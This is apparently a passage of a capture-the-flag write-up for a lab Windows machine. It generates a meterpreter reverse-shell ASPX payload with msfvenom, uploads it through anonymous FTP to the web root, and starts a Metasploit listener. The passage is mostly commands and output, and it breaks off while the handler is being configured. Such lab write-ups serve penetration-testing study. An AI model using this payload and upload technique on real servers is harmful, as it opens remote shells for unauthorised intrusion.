 With the use of Metasploit we can crack this machine wide open in minutes!

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.17 LPORT=1312 -f aspx > devel.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2879 bytes

$ ftp anonymous@10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put devel.aspx
local: devel.aspx remote: devel.aspx
229 Entering Extended Passive Mode (|||49180|)
125 Data connection already open; Transfer starting.
100% |****************************************************************|  2919       71.37 MiB/s    --:-- ETA
226 Transfer complete.
2919 bytes sent in 00:00 (250.57 KiB/s)
ftp> exit
221 Goodbye.
```

Now we have our payload uploaded, time to get our listener ready so we can trigger the reverse shell:

```
$ msfconsole
Metasploit tip: Save the current environment with the save command,
future console restarts will use this environment again


                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .
                ',@@     @   ;           _____________
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v6.4.50-dev                          ]
+ -- --=[ 2495 exploits - 1283 auxiliary - 393 post       ]
+ -- --=[ 1607 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
```